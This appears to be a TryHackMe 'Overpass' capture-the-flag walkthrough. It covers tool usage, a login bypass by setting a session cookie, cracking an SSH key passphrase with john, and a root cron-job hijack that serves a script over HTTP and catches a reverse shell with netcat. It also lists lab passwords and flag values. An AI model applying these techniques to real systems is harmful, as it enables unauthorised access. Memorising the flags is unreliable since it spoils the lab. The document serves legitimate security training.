


# Overpass

--------------------------------------------------------------------

**TOOLS USED**: nmap, nikto, netcat, john

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**nikto**: Web Server Vulnerability Scanner

```
nikto -h IP
```

-h Host

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.149.189

--------------------------------------------------------------------

### 1. FIND USER FLAG

```
nmap -sC -sV -oN nmap.txt -p- 10.10.149.189
```


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>

HTML source says something about roman encryption algorithm (ROT13?)

Download the source code on the website


Encryption Algorithm Used: ROT47

```
nikto -h 10.10.149.189
```

Dir Of Interest: /admin

Go through /login.js file (inspect source)


Can use the Cookies.set() method and pass anything we want to get a cookie

```
Cookies.set("SessionToken","success")
```



USER: james


```
ssh2john private.key > 4john
john 4john --wordlist=/usr/share/wordlists/rockyou.txt
```


SSH Private Key Password: james13

Error when using private key so I have to change permissions
```
chmod 700 private.key
ssh -i private.key james@10.10.149.189
```

user.txt: thm{65c1aaf000506e56996822c6281e6bf7}

--------------------------------------------------------------------

### 2. FIND ROOT FLAG

```
cat .overpass
```

.overpass contents:<br>
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

ROT47 Decrypted:<br>
[{"name":"System","pass":"saydrawnlyingpicture"}]

James User Password: saydrawnlyingpicture

```
nc -lnvp 4444 > linpeas # On target
nc 10.10.149.189 4444 < linpeas # On host
./linpeas # On target
```

Curl is executed by root every minute and the received file is executed


Change IP address of overpass.htm to my IP


Create buildscript file on my computer


Start listening on port 80 (to send reverse shell script) and port 4444 (to receive reverse shell connection)
```
sudo python -m http.server 80
nc -lnvp 4444
```


root.txt: thm{7f336f8c359dbac18d54fdd64ea753bb}